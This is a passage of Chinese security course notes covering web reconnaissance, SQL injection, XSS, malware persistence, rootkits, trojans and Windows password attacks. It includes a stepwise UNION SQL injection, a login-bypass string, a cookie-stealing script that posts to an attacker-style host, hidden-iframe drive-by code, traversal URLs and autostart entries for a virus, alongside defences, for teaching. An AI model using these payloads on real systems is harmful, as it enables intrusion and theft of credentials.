	类型探查技术：识别Web站点OS、服务器类型版本
	漏洞扫描技术：Web站点与服务器软件已知漏洞
	服务查点技术：Web服务器软件的“旗标”
	
web高级搜索：filetype:xxx xxxxx site:xxx.xx
            搜索文件类型   内容     网址
```

#### 手工审查Web应用程序结构与源代码
```tex
静态和动态生成的页面
	查看源代码
	隐藏信息：表单隐藏字段、注释隐藏信息
	动态页面：脚本编程语言，页面命名规则，以及参数名称、类型与含义

目录结构
	页面存储结构
	目录文件枚举不安全配置

辅助性文件
	CSS级联样式表、XML配置信息、Javascript文件、include文件
	数据库字段结构、目录路径、输入参数以及数据库连接字符串

输入表单
	提交数据方法：GET还是POST
	表单处理行为：哪个脚本？
	输入字段名称、最大长度限制、隐藏字段、自动完成标记、口令字段

查询参数字符串
	复用以假冒其他用户、获取受限的数据、运行任意的系统命令，或者执行其他应用程序开发者所不希望看到的动作
	提供了Web应用程序内部工作的信息: 数据表字段名称，会话标识符、用户名或口令字段
```

#### 自动下载与镜像Web站点页面
```tex
在线手工审查 -> 自动下载／镜像，离线审查

Linux系统自动下载与镜像工具
	curl / wget / Lynx…
	Libcurl

Windows系统
	Teleport／Offline Explorer
	各类下载工具：IDM / 迅雷／Flashget

本质上就是爬虫
```

#### 使用Google Hacking技术审查与探测Web应用程序
```tex
Google已经帮我们下载并分析了几乎所有公开页面
	Googlebot（爬虫）
	Google Search Engine

Google Hacking
	Google的高级搜索与挖掘技巧
	在大范围内搜索存有漏洞的Web应用程序
	符合特定条件的敏感信息内容
	在被Google检索的目标站点中搜索特定信息
```

### Web应用程序安全评估与漏洞探测
```tex
深入的安全评估与漏洞探测
	透彻理解目标应用程序的体系结构和设计思路
	找出可能存在的薄弱环节
	总结出针对这个Web应用程序的详细攻击步骤

Web应用程序的主要攻击点
	身份验证
	会话管理
	数据库操作
	输入数据合法/合理性检查
```

#### **Web应用安全辅助分析工具**
```tex
浏览器插件
	实时地查看和修改传递给Web服务器的数据
	TamperData／Live HTTP Header
	F12
免费工具集
	Web服务器与客户端之间的代理方式运行
		Burp Suite*，Fiddler*，WebScarab，Paros Proxy和SPIKE Proxy
	结合爬虫的评估与漏洞探测工具
		Whisker与Libwhisker ／Nikto ／N-Stealth
	黑客渗透测试工具：NBSI、HDSI、Domain
商业Web应用安全评估系统和漏洞扫描器
	Nessus*、IBM－Appscan、HP WebInspect、WVS、极光、Jsky
```

#### **攻击Web服务器软件**
```tex
流行的Web服务器软件
	MS：WinServer／IIS／SQL Server／ASP／ASP.NET
	Linux: Linux／Apache／Tomcat / MySQL／PHP
针对Web服务器网络服务的远程渗透攻击
	IIS／MS SQL：红色代码、尼姆达和SQL Slammer
	已知漏洞渗透代码来源：Metasploit、Exploit-db、Packetstorm、SecurityFoucs
数据驱动的远程代码执行安全漏洞
	缓冲区溢出
	IIS HTR数据块编码堆溢出漏洞攻击
	Microsoft IIS ASP远程代码执行漏洞(MS08-006)
服务器功能扩展模块漏洞
	IIS软件中被红色代码所利用的IIS检索服务缓冲区溢出漏洞
	WebDAV模块Translate:f漏洞
	Apache扩展组件模块漏洞，如Tomcat、OpenSSL、mod_rewrite、mod_mylo、mod_gzip、mod_isapi、mod_jk
样本文件
	Web应用服务器包含的样板脚本和代码示例存在漏洞
	案例: IIS4中的showcode.asp存在目录遍历漏洞
		http://SERVER/msadc/Samples/SELECTOR/showcode.asp?source=/../../../../boot.ini
源代码泄露
	能够查看到没有防护措施Web服务器上的应用程序源码
	案例: IIS上的“+.htr”漏洞
		http://SERVER/global.asa+.htr
资源解析攻击
	资源解析: 把同一资源的不同表示形式解析为它的标准化名称的过程. 
		C:/text.txt = ../text.txt = //computer/C$/text.txt
	案例: IIS中的“ASP::$DATA”漏洞
		http://SERVER/scripts/file.asp::$DATA: 查看源码
```

#### 攻击Web应用程序
```tex
Web应用程序的不安全性
	Web应用程序编码质量和测试均有限: 安全最薄弱环节
	Web应用的复杂性和灵活性进一步恶化了其安全性
	Web应用使用的中间件可能引入安全漏洞（Spring、Log4j、WordPress、ThinkPHP）
Web应用程序安全威胁类型
	WASC(Web Application Security Consortium)
		针对认证机制的攻击
        针对授权机制的攻击
        客户端攻击
        命令执行攻击
        信息暴露
        逻辑攻击
```

Web应用程序安全漏洞类型列表（2022.10.19）



#### 攻击Web数据内容
```tex
安全敏感信息泄露
	敏感信息类型
		GF、BM等科研敏感信息
		教师、学生个人隐私信息
		网络安全敏感信息
	通常的信息泄漏途径和方式
		未关闭Web服务器的目录遍历，不经意泄漏
		Upload、Incoming等目录中转文件时泄漏
		缺乏安全意识，在公开的文档中包含个人隐私信息
		在公开的个人简历、职称晋升材料、课题申请书等包含科研敏感信息
网站内容篡改
不良信息内容上传
	网站面临的不良信息内容威胁
		网站被攻陷后可能成为不良信息的存储和中转仓库
		提供用户交互的论坛/博客等网站可能涉及用户上传不良信息
```

## SQL注入
```tex
什么是漏洞？
	程序的安全缺陷，可能会造成非常严重的数据泄露问题、服务器的安全问题
什么是bug？
	程序的问题，可能造成程序不能正常运行，也可能造成漏洞，程序的功能缺陷
OWASP top 10

安全领域人员划分：
1. 白帽子：目的是合法地（经过授权）找到相关系统的漏洞，目的核心是为了修复漏洞
2. 灰帽子：会去攻击他人系统（未经授权），不会破坏，可能在特定情况下会把自己找到的漏洞以非常高的价格卖出去
3. 黑帽子：在未经授权的情况下对系统进行攻击，以破坏为目的。不要成为黑帽！

SQL注入：需要核心理解什么是注入
	最终目的：窃取数据库里的数据
```

### SQL注入的步骤
安全漏洞是怎么产生的？
	是由程序员/维护人员造成的，很多安全的问题都是由编码方面的缺陷造成的
1. 先验证是否存在漏洞
```tex
哪些地方容易出现漏洞？只要有参数交互的地方就容易出现漏洞
在当前系统，我们看到“个人中心”页面有数据交互
判断是否存在SQL注入的核心点：看参数是否带入到SQL语句中去执行
不同的参数带来不同的响应结果，就说明参数已经带入到SQL语句中去执行了
所以，存在SQL注入的前提是：
	参数可控
	参数被带入到SQL语句中执行
安全的渗透测试的核心是：试
```

2. 判断字段的数量
```tex
怎么判断字段的数量？
通过  ORDER BY + 数字  判断
ORDER BY n;
通过增大n来试出字段数量
判断数量的目的是？
```

3. 判断回显位
```tex
union select 1,2,3 -- a
```

4. 获取一些敏感信息（如：数据库的名字、版本、用户）
```tex
union select 1,datdabase(),3 -- a
union select 1,version(),3 -- a，然后百度“xxx版本的数据库由哪些漏洞”
union select 1,user(),3 -- a
```

5. 获取相关数据——表名
```tex
数据是存放在数据库中的某个表中的某个字段中的，如何获取？
在MySQL中存在一个数据库：information_schem
这个数据库里面的tables表存放着当前MySQL中所有表名
SELECT table_name FROM information_schema.tables WHERE table_schema = 'uestc2025'
怎么把查询到的表名放到回显位中去呢？
union select 1,table_name,3 from information_schema.tables where table_schema = 'uestc2025'
有多张表时可以用limit 0,1来控制只返回一项
还有另一种形式：行转列
union select 1,GROUP_CONCAT(table_name),3 from information_schema.tables where table_schema = 'uestc2025'
```

6. 获取字段名
```tex
要想获取字段名，依然从information_schema数据库终端COLUMNS表中获取
table_schema：数据库名
table_name：表名
column_name：字段名
union select 1,column_name,3 from information_schema.columns where table_schema = 'uestc2025' and table_name='teacher'
```

7. 获取数据
```tex
union select 1,tch_name,tch_num,tch_pwd from teacher limit 1,1就可以变化字段去获取对应的值
```

### 万能密码
万能密码的核心意思就是：密码没有作用，意味着输入任意密码都可以登录成功
必须要清楚登录SQL语句的大概的组成形式
```tex
select * from teacher where tch_num='xxx' and tch_pwd='xxx'
select * from teacher where tch_num='x' or 1=1 and tch_pwd='xxx'
```

### 排序注入
```tex
单字段排序
select * from teacher order by tch_num desc
多字段排序
select * from teacher order by tch_num desc, tch_id desc
需要结合报错来输出敏感数据--报错注入
MySQL中有三个函数可以支持报错：UPDATEXML(), EXTRACTVALUE(), FLOOR()
updatexml(1,1,1)，三个参数，不能有字符
select * from teacher order by tch_num desc
```

### like注入
```tex
也是需要去了解后端SQL语句的写法
select from * teacher where tch_name like '%a%'
select from * teacher where tch_name like '%a%' union select 1,2,3,4,5,NOW(),NOW(),NOW() -- a
```

### SQL注入的防御
```tex
参数的严格校验
	只要校验到union、select、order by等关键字，就直接返回“参数错误”的异常，可以一定程度上规避SQL注入
预处理-->预编译
	#{}与${}
	如果使用的占位符是${}
	参数tch_num = 1001
	select * from teacher where tch_num='1001'
	如果使用的占位符是#{}
	参数tch_num = 1001
	select * from teacher where tch_num=?
```

## XSS跨站脚本攻击
### 恶意脚本
XSS主要起作用的地方是浏览器，浏览器可以解析的代码：HTML、JavaScript（JS）
XSS要想生效，必须需要能够执行JS的代码。所以，只要对应的功能节点能够执行JS代码，就能够存在XSS
最简单的方式：弹窗
```javascript
1.最原始的方式：直接插入script标签
	<script> alert(1) </script>
2.通过事件的方式去注入
	a" onclick="alert(1)
3.通过标签的方式注入
	
4.通过伪协议
    <a href="javascript:alert(1)"></a>
```

### 典型跨站脚本攻击
查看用户终端会话Cookie
```javascript
<script>alert(document.cookie)</script>
会话ID、甚至登录口令等敏感信息
```

窃取Cookie
```javascript
攻击者控制网站： steal_cookie_example.com
<script>document.location=‘http://steal_cookie_example.com/getcookie.php?cookie=’+document.cookie;</script>
```

网页挂马
```javascript
<iframe src="http://target_link" height=0 width=0></iframe>
<script src = "http://target_link"></script>
```

### 跨站脚本攻击类型
持久性XSS： Persistent／ stored
​	漏洞形式: Web应用程序允许用户输入内容并持久保存并显示在网页上.
​	攻击方式: 攻击者将XSS攻击脚本写入后台数据库，导致大量用户访问时执行攻击脚本。
​	典型案例: 留言本/论坛/博客/wiki等。



非持久性XSS（反射型XSS）： reflected
​	网站后台针对黑客插入的XSS脚本，解析出包含XSS脚本的页面，通常需结合社会工程学进行攻击



DOM-based: 本地XSS, 如JS本地生成HTML页面中存在


### XSS跨站脚本攻击防范措施
服务器端防范措施-“限制、拒绝、净化”
```tex
输入验证: 对用户提交数据进行尽可能严格的验证与过滤
输出净化: HTMLEncode()方法
消除危险的输入点
```

客户端防范措施
```tex
提高浏览器访问非受信网站时的安全等级
关闭Cookie功能，或设置Cookie只读(IE6SP1 HTTPonly cookie)
安全意识和浏览习惯->非主流浏览器Chrome, Safari, Opera
```


# 第六章 恶意代码攻击
## 恶意代码类型说明及行为分析
### 常见传播途径
恶意代码攻击模型



### 常见自启动方式
```tex
自启动特性
	除引导区病毒外，绝大多数病毒感染系统后，都具有自启动特性。
	病毒在系统中的行为是基于病毒在系统中运行的基础上的，这就决定了病毒必然要通过对系统的修改，实现开机后自动加载的功能。
	
存在形式
	服务和进程－病毒程序直接运行
	嵌入系统正常进程－DLL文件和OCX文件等
	驱动－SYS文件

加载方式
	修改注册表
	将自身添加为服务
	将自身添加到启动文件夹
	修改系统配置文件
```

#### 自启动方式
修改注册表
​	a. 注册表启动项
​	b. 文件关联项
​	c. 系统服务项
​	d. BHO项
```tex
BHO(Browser Helper Object，浏览器辅助对象，简称BHO) 
	BHO是微软推出的作为浏览器对第三方程序员开放交互接口的业界标准，通过简单的代码就可以进入浏览器领域的“交互接口”(INTERACTIVED Interface)。通过这个接口，程序员可以编写代码获取浏览器的行为，比如“后退”、“前进”、“当前页面”等，利用BHO的交互特性，程序员还可以用代码控制浏览器行为，比如修改替换浏览器工具栏，添加自己的程序按钮等
```

1. 注册表启动项
   ```tex
   HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion下：
   	RunServices
   	RunServicesOnce
   	Run
   	RunOnce
   HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion下：
   	Run
   	RunOnce
   	RunServices
   以上这些键一般用于在系统启动时执行特定程序
   ```

2. 文件关联项
   ```tex
   HKEY_CLASSES_ROOT下：
   exefile/shell/open/command] @="/"%1/" %*"
   comfile/shell/open/command] @="/"%1/" %*"
   batfile/shell/open/command] @="/"%1/" %*"
   htafile/Shell/Open/Command] @="/"%1/" %*"
   piffile/shell/open/command] @="/"%1/" %*“
   ……
   病毒将"%1 %*"改为 “virus.exe %1 %*"
   virus.exe将在打开或运行相应类型的文件时被执行
   ```

3. 修改配置文件
   ```tex
   %windows%/ wininit.ini中[Rename]节
   NUL=c:/windows/virus.exe
   将c:/windows/virus.exe设置为NUL,表示让windows在将virus.exe 运行后删除。
   
   Win.ini中的[windows]节
   load = virus.exe
   run = virus.exe
   这两个变量用于自动启动程序。
   
   System.ini 中的[boot]节
   Shell = Explorer.exe virus.exe
   Shell变量指出了要在系统启动时执行的程序列表。
   ```

4. 修改Bat文件
   ```tex
   %windows%/winstart.bat
   该文件在每次系统启动时执行，只要在该文件中写入欲执行的程序，该程序即可在系统启动时自动执行。
   
   autoexec.bat 在DOS下每次自启动
   ```

5. 修改启动文件
   ```tex
   当前用户的启动文件夹
   可以通过如下注册表键获得: 
   Software/Microsoft/Windows/CurrentVersion/Explorer/Shell Folders中的 StartUp 项
   
   公共的启动文件夹
   可以通过如下注册表键获得: 
   Software/Microsoft/Windows/CurrentVersion/Explorer/Shell Folders中的 Common StartUp 项
   
   病毒可以在该文件夹中放入欲执行的程序，或直接修改其值指向放置有要执行程序的路径。
   ```

### 常见行为
病毒感染系统后，无疑会对系统做出各种修改和破坏。有时病毒会使受感染的系统出现自动弹出网页、占用高CPU资源、自动弹出/关闭窗口、自动终止某些进程等各种不正常现象。

#### 病毒隐性行为
下载与后门特性
```tex
下载特性：
	很多木马、后门程序间谍软件会自动连接到Internet某Web站点，下载其他的病毒文件或该病毒自身的更新版本/其他变种。

后门特性：
	后门程序及很多木马、蠕虫和间谍软件会在受感染的系统中开启并侦听某个端口，允许远程恶意用户来对该系统进行远程操控。有时候病毒还会自动连接到某IRC站点某频道中，使得该频道中特定的恶意用户远程访问受感染的计算机。
```

信息收集特性
```tex
大多数间谍软件和一些木马都会收集系统中用户的私人信息，特别是各种帐号和密码。收集到的信息通常都会被病毒通过自带的SMTP引擎发送到指定的某个指定的邮箱。
```

文件感染特性
```tex
文件型病毒的一个特性是感染系统中部分/所有的可执行文件。病毒会将恶意代码插入到系统正常的可执行文件中，使得系统正常文件被破坏而无法运行，或使系统正常文件感染病毒而成为病毒体。有的文件型病毒会感染系统中其他类型的文件。

典型病毒：
	PE_LOOKED 维京
	PE_FUJACKS 熊猫烧香
```

网络攻击特性
```tex
一些蠕虫病毒会针对微软操作系统或其他程序存在的漏洞进行攻击，从而导致受攻击的计算机出现各种异常现象，或是通过漏洞在受攻击的计算机上远程执行恶意代码。
	振荡波－利用MS04-011漏洞攻击

一些木马和蠕虫病毒会修改计算机的网络设置，使该计算机无法访问网络。有的木马和蠕虫还会向网络中其他计算机攻击、发送大量数据包以阻塞网络，甚至通过散步虚假网关地址的广播包来欺骗网络中其他计算机，从而使得整个网络瘫痪。
	ARP攻击
```

自身隐藏特性-Hide & Rootkit
```tex
多数病毒会将自身文件设置为“隐藏”、“系统”和“只读”属性，更有一些病毒会通过修改注册表对系统的文件夹访问权限、显示权限等进行修改，以使其更加隐蔽不易被发现。
```

#### **Rootkit的主要分类**
应用级
```tex
在应用层（R3）隐藏自身。
主要通过替换login、ps、ls、netstat等系统工具，或修改.rhosts等系统配置文件等实现隐藏及后门
```

内核级
```tex
通过插入内核模块隐藏自身。
针对Linux系统，内核级rootkit又可分为lkm rootkit、非lkm rootkit。 
	lkm rootkit主要基于lkm技术，通过系统提供的接口加载到内核空间，成为内核的一部分，进而通过hook系统调用等技术实现隐藏、后门功能。
	非lkm rootkit主要是指在系统不支持lkm机制时修改内核的一种方法，主要通过/dev/mem、/dev/kmem设备直接操作内存，从而对内核进行修改。
```

硬件级
```tex
硬件级rootkit主要指bios rootkit，也称为Bootkit。可以在系统加载前获得控制权，通过向磁盘中写入文件，再由引导程序加载该文件重新获得控制权，也可以采用虚拟机技术，使整个操作系统运行在rootkit掌握之中；
```

#### **rootkit的基本原理**
Hook（钩子）技术：
本质上相当于“中间人”，在调用路径上进行拦截，对请求或结果进行审计和过滤



```tex
Hook（钩子）技术：
	基于代码修改的钩子技术
		Inline-Hook（内联钩子）
	基于表修改的钩子技术
        导入表、导出表Hook
        虚表Hook
        系统调用表Hook（Windows：SSDT Hook） 
        基于中断向量表的Hook
	基于其他机制的钩子技术
		基于异常处理
	inline hook：主要是指对内存中的内核函数直接修改，而不影响原先的功能，可以采用跳转的办法，也可以修改对下层函数的call offset实现。
	拦截中断：主要通过sidt指令获得中断调用表的地址，进而获取中断处理程序的入口地址，修改对应的中断处理程序，如int 0x80，int 0x1等。其中拦截int 0x1是较新的技术，主要利用系统的调试机制，通过设置DR寄存器在要拦截的内存地址上下断点，从而在执行到指定指令时转入0x1中断的处理程序，通过修改0x1中断的处理程序即可实现想要的功能。
	拦截中断1（基于表）：主要通过sidt指令获得中断调用表的地址，进而修改中断描述符表中的中断处理函数地址。
	拦截中断2（基于Inline-Hook）：进而获取中断处理程序的入口地址，修改对应的中断处理程序的代码。
```



#### **rootkit的常见功能**
内核后门
```tex
可以是本地的提权后门和网络的监听后门，本地的提权可以通过对内核模块发送定制命令实现，网络内核后门可以在IP层对进入主机的数据包进行监听，发现匹配的指定数据包后立刻启动回连进程
```

嗅探工具
```tex
嗅探工具可以通过libpcap库直接访问链路层，截获数据包，也可以通过linux的netfilter框架在IP层的hook点上截获数据包。嗅探器要获得网络上的其他数据包需要将网卡设置为混杂模式，这是通过ioctl系统调用的SIOCSIFFLAGS命令实现的，查看网卡的当前模式是通过SIOCGIFFLAGS命令，因此可以通过hook sys_ioctl隐藏网卡的混杂模式
```

密码记录
```tex
密码记录可以通过hook sys_read系统调用实现，比如通过判断当前运行的进程名或者当前终端是否关闭回显，可以获取用户的输入密码。hook sys_read还可以实现login后门等其它功能
```

lkm注射
```tex
也是一种隐藏内核模块的方法，通过感染系统的lkm，在不影响原有功能的情况下将rootkit模块链接到系统lkm中，在模块运行时获得控制权，初始化后调用系统lkm的初始化函数，lkm注射涉及到elf文件格式与模块加载机制
```

模块摘除
```tex
主要是指将模块从模块链表中摘除从而隐藏模块的方法，最新加载的模块总是在模块链表的表头，因此可以在加载完rootkit模块后再加载一个清除模块将rootkit模块信息从链表中删除，再退出清除模块，新版本内核中也可以通过判断模块信息后直接list_del
```

日志擦除
```tex
传统的unix日志主要在/var/log/messages，/var/log/lastlog，/var/run/utmp，/var /log/wtm下，可以通过编写相应的工具对日志文件进行修改，还可以将HISTFILE等环境变量设为/dev/null隐藏用户的一些操作信息
```

## 特洛伊木马
### 木马概述
特洛伊木马是指黑客用来远程控制目标计算机的特殊程序。凡是非法驻留在目标计算机里，并执行预定的操作，窃取目标的私有信息，都属于特洛伊木马。

#### 工作方式：C/S模式
服务器端安装在目标机里，监听等待攻击者发出的指令；客户端是用来控制目标机器的部分，放在攻击者机器上。
**不是所有木马都需要在C/S模式下运行**：木马“Passwd Sender”（口令邮差）可以不需要客户端

#### 木马的伪装
```tex
冒充图象文件或游戏程序
捆绑程序欺骗
	将木马程序与正常文件捆绑为一个程序
伪装成应用程序扩展组件（白加黑）
	木马名字为dll或ocx类型文件，挂在一个有名的软件中。
```

#### 木马的特点
```tex
隐蔽性强：
	早期木马采用独立进程，可通过任务管理器查询到其进程，但目前大多数木马只能采用内存工具来看内存中是否存在木马。 

潜伏能力强：
	采用各类“保活技术”，如果仅对木马的部分组件进行清理和删除，则残留未清理的其他组件会尝试修复。表面上的木马被发现并删除以后,后备的木马在一定的条件下会跳出来。

非授权性：
	一旦控制端和服务端连接后，控制端将享有服务端的大部分操作权限，包括窃取口令、拷贝或删除文件、修改注册表、控制鼠标、键盘、重新启动计算机等。
```

#### 木马的功能
```tex
保留并维持访问权限
远程控制
	远程命令执行
	远程文件操作
信息收集
	收集系统关键信息
	收集密码或密码文件
其它的特殊功能
```

### 工作原理
#### 木马隐藏技术
#### 木马程序建立连接技术
合并端口木马
```tex
修改虚拟设备驱动程序或动态链接库
在一个端口上同时绑定两个TCP或UDP连接
把木马端口绑定于特定的服务端口上，实现端口隐藏
替代系统功能
	将修改后的DLL替换系统原有的DLL
	对所有的函数调用进行过滤。
```

使用ICMP协议进行数据的发送
```tex
ICMP报文由系统内核处理，不通过端口
在ICMP头部加入木马控制字段
伪装成一个Ping的进程，系统将Ping回包的监听、处理权交给木马进程
接收到特定Ping回包，从报文中解码出命令和数据
```

主动连接（TCP Socket技术）
```tex
打开一通信通道（绑定某个端口）并告知本地主机，在某一个地址上接收连接请求。socket() 和 bind()
等待客户请求到达该端口。listen()
接收到重复服务请求，处理该请求并发送应答信号。accept()
返回第二步，等待另一客户请求。
关闭连接。closesocket()
```

反弹端口型木马
```tex
服务端（被控端）主动发起连接
客户端（控制端）监听端口
服务端定时监测控制端的存在
控制端上线立即主动连接控制端打开的监听端口
```

​	半反弹型链接



​	全反弹型连接


使用基于嗅探原理的原始套接字木马
```tex
（被控端）服务器端包含发包器和嗅探器
（控制端）客户端发送指定特征的数据包
	事先约定的命令
	被控端需要接收的数据
被控端的嗅探器捕获到对应数据包
	被控端转激活状态
	解析数据包，获得命令和IP地址
	执行相应命令
	发包器将结果发给主控端
```

### 木马编程技术
```tex
调用Win32 API编程
修改注册表技术
多线程技术
后台监控技术
定时触发器技术
Socket编程技术
```

### 木马植入技术
攻击植入



利用漏洞植入
```tex
系统漏洞
应用程序漏洞
```

伪装和诱骗
```tex
文件捆绑
邮件附件
木马网页（下载）
```

自动传播
```tex
邮件列表
共享磁盘
网盘/群共享
```

### 木马隐藏技术
#### 启动隐藏
目标
	系统重新启动后，能使木马程序自动启动
	启动方式所更改的系统配置要隐蔽
常见自启动方式
```tex
自启动项：三个主要位置:注册表、win.ini、system.ini。在autoexec.bat、config.sys、启动组中易被发现
注册表启动项
	[HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion]
		Run
		RunServices
		RunOnce
		RunOnceEx
	[HKEY_LOCAL_USER/Software/Microsoft/Windows/CurrentVersion]
		Run
		RunOnce

启动组
	第一自启动目录：开始 -> 程序 -> 启动
		C:/Documents and Settings/用户名/「开始」菜单/程序/启动
		针对某一特定用户
	第二自启动目录：开始 -> 程序 -> 启动
		C:/Documents and Settings/All Users/「开始」菜单/程序/启动
		针对本机所有用户

捆绑方式启动
	手动的安装方式
	由攻击者确定捆绑方式、捆绑位置、捆绑程序
	上述多变性使木马有很强的隐蔽性
	捆绑文件运行时加载
	捆绑对象：自动启动的应用程序

修改文件关联：如用木马取代notepad.exe来打开.txt文件

注册系统服务
	服务——执行指定系统功能的程序、线程或进程，以便支持其他程序，尤其是低层(接近硬件)程序
	如果木马把自己注册成系统服务，并设置成自动启用模式，那么它将随系统开机而启动。
	服务查看：services.msc

注册系统服务
	服务编程：Win32API中的SCM API 
	本质上还是修改注册表

伪装成屏幕保护程序
	屏幕保护程序.scr文件——PE格式的可执行文件
	当前屏保程序HKCU/Control Panel/desktop
		SCRNSAVE.EXE
		HKCU = HKEY_CURRENT_USER
	当前屏保启动时间: HKCU/Control Panel/desktop
		ScreenSaveTimeOut 
	待计算机闲置时执行

利用路径优先级劫持
	以Win9x下EXPLORER.EXE搜索顺序为例：
		%SystemDrive%（C:/） 
		%SystemRoot%/System32（ C:/Winnt/SYSTEM32）
		%SystemRoot%（C:/Winnt ） 
	病毒CodeRed（红色代码）在C:/和D:/目录下放置两个约8KB的名为EXPLORER.EXE的文件。
	后续Windows版本中，Dll加载位置也存在路径优先级劫
持问题。

```

#### 文件隐藏
dll木马（特洛伊dll）

```tex
工作原理：将木马逻辑以Dll的方式进行封装
运行机制：
	使用木马Dll替换常用Dll文件
	截获并处理特定的消息（消息钩子）
	作为shellcode注入特定进程的地址空间中运行
```

#### 运行隐藏
```tex
CPU和内存的占用率
运行实体——进程
	使用隐蔽性、欺骗性强的进程名称
	傀儡进程技术
	Rootkit/Bootkit技术：隐藏进程或断链
	使用动态链接库（Dll） 
	在其它进程空间中插入代码（shellcode）
```

#### 通信隐藏
```tex
将服务端的侦听端口置于高位端口
植入木马后重新设置侦听端口
寄生：端口复用技术、嗅探技术
利用高层协议隧道
	HTTP隧道
	DNS隧道
	ICMP隧道
```

### 木马检测
```tex
传统检测手段
	杀毒软件扫描：特征码提取
行为分析检测
	分析程序具有恶意行为
		修改注册表启动项
		远程线程插入
		Rootkit行为——隐藏进程、文件、注册表
		网络通信行为
	代表：HIPS软件
		微点 Micropoint
		火绒
		360主动防御
```

### 木马的防范
如何对付木马
```tex
1.端口扫描：检查本地开放端口
2.查看连接：netstat -a 命令
	上述两种方法对驱动程序/动态链接木马无效。
3.检查注册表及常见启动位置
4.查找木马进程或文件：kernel32.exe、sysexplr.exe等 5）文5.件完整性检查：
	早期Win：开始→程序→附件→系统工具→系统信息→工具→系统文件检查器。如有损坏可从安装盘还原。
	后期Win：数字签名
```

进程维度
```tex
陌生进程、缺少数字签名的进程
与系统进程名称接近或路径不同的进程
	C:/Windows/Svchost.exe
	C:/Windows/System32/Svch0st.exe
隐藏进程
shellcode
```

dll维度
```tex
陌生Dll、缺少数字签名的Dll
与系统进程名称接近或路径不同的Dll
	Msimg32.dll等
```

驱动程序维度
```tex
陌生驱动、缺少数字签名的驱动
```

启动项维度
```tex
陌生注册表启动项或其余启动位置
	Autoruns
```

网络通信维度
```tex
可疑开放端口：通过端口扫描排查
可疑连接：netstat或tcpviewer
	Windows：netstat -ano
	Linux：netstat -anp
```

文件维度
```tex
文件完整性校验
	早期Windows自带校验
	后期Windows：数字签名
	sfc /scannow
```

服务维度
```tex
陌生服务
```

## 恶意代码处理技术
### 防病毒产品工作机制介绍
扫毒模块（病毒扫描模块）
```tex
扫描并检测含恶意代码的文件
对检出恶意代码的文件进行处理
对被文件型病毒感染的可执行文件进行修复
构成
	扫描引擎
	病毒特征库（码）
	间谍软件特征码/间谍软件病毒码
	网络病毒特征码（云特征）
```

损害清除服务（DCS）
```tex
对正在运行/已经加载的病毒进行清除
	终止进程
	脱钩DLL文件
	删除文件
修复系统，如恢复被病毒修改过的注册表内容
	可视为通用专杀工具
	损害清除引擎(DCE)
	损害清除模板(DCT)
	间谍软件清除病毒码
```

### 为什么会出现无法清除/隔离/删除的病毒？
Windows自身特性，对已加载文件无法进行改动操作
```tex
病毒感染系统后，病毒进程已被系统加载
病毒Dll已经载入到正在运行的系统进程中由于
导致病毒扫描引擎对检测到的文件无法操作
```

已运行的病毒未包含在损害清除模板（DCT）中
```tex
损害清除服务无法修复被病毒感染的系统
```

### 常用病毒处理方法
#### 查找病毒启动项
检查常见注册表启动项
检查服务项
检查启动组
检查Winlogon Notify
其他启动项
文件型病毒母体

#### 删除病毒文件


# 第七章 口令攻击
## 身份认证与口令
身份认证(Identification and Authentication)
​	用户向系统提交身份证明
​	系统确认用户的身份是否属实
​	拒绝用户或者赋予用户一定的权限
常见的身份验证的思路（4w）
```tex
What do you know：密码
What do you have：微信、学生证、身份证
Who you are：指纹、虹膜
Where you are：各地消费券、校内访问
```

计算机领域中的身份认证
```tex
用户名和密码验证
磁卡或者智能卡认证
基于人的生理特征认证
基于地理位置的认证
其它的特殊的认证方式
```

## 口令攻击的方法与类型



### 主动口令攻击
#### 字典攻击
字典
```tex
由多条可能的口令字而组成的纯文本文件
```

字典的生成
```tex
现有字典
用户自定义字典
```

字典的使用
```tex
破解应用程序（如L0phtCrack）载入字典后
针对目标账户逐一尝试
```

#### 强力攻击与组合攻击
如何让口令难以被攻破？
```tex
不使用常见单词
长度足够长
安全的加密/认证算法
```

强力攻击
```tex
尝试所有的字符组合方式，逐一模拟口令验证过程
```

组合攻击
```tex
根据一定规律混合数字、字母
```

### 被动口令攻击
#### 欺骗攻击
钓鱼攻击
​	Phishing = Fishing & Phone
主要方式
```tex
伪装网站
伪装客户端
攻陷服务器
端口重定向
```

#### 嗅探攻击



主机Hacker处于受害者A和服务器通信的信道上
二者通过明文传输用户名及口令
Hacker“窃听到”合法的用户名及口令

## Windows下的口令攻击与防护
### 验证协议
#### LAN Manager协议
##### LM口令处理过程（口令→hash值）
1. 转大写
   <font color="red">漏洞，碰撞几率大大增加</font>
2. 截断或补齐到14字符
   <font color="red">漏洞，最大口令长度为14位，其余被抛弃</font>
3. 这14个字符分成两个7字符
   <font color="red">漏洞，两个字符串可以分别破解</font>
   <font color="red">不论口令多长，破解的最大长度仅为7字节</font>
4. 以7个字符为key，DES加密一个64位“Magic ”
5. 把两个64位结果合并，得到128位值
6. 服务器保存该128位值

##### LM验证过程
1. 服务器
   随机产生8字节挑战
   送往待认证者
2. 待认证者
   DES算法
   口令为key
   加密挑战
   发给服务器
3. 服务器
   DES算法
   口令为key
   加密挑战
   验证待认证者发送的值
   <font color="red">采用标准DES算法</font>
   挑战值明文传递
   密文可被截获



#### NTLM
##### NTLM口令处理过程
口令->hash值
​	口令进行Unicode编码
​	使用MD4散列算法
​	保存得到的128位散列值
安全：标准的编码再散列过程
只要MD4不被破解，就没有太大的漏洞

##### NTLM验证过程
1. 客户端在本地将密码加密成密码散列
2. 客户端向服务器发送自身帐号（未经加密，明文传输）
3. 服务器产生16位的随机数发送给客户端，作为 challenge
4. 客户端用加密后的密码散列来加密这个 challenge 并返回给服务器，作为 response
5. 服务器把用户名、给客户端的challenge 、客户端返回的response 三元组发送域控制器
6. 域控制器用该用户名在 SAM密码管理库 中找到对应密码散列，然后使用这个密码散列来加密challenge
7. 域控制器比较两次加密的 challenge ，如果一样，那么认证成功。

### 口令的存储
SAM数据库（Security Account Manager）
​	Windows系统使用安全帐号管理器管理用户帐号
​	SAM信息保存位置：
​		%SystemRoot%/system32/config/SAM
​		%SystemRoot%/repair/SAM.
​		注册表中HKEY_LOCAL_MACHINE/SAM键下
​	缓存的口令字hash串

### 常用口令攻击方法
#### 常用的口令获取及破解工具
L0phtcrack、<font color="red">Mimikatz</font>、NTSweep、NTCrack、PWDump等

#### 使用Rainbow tables破解Windows密码
什么是Rainbow tables？
```tex
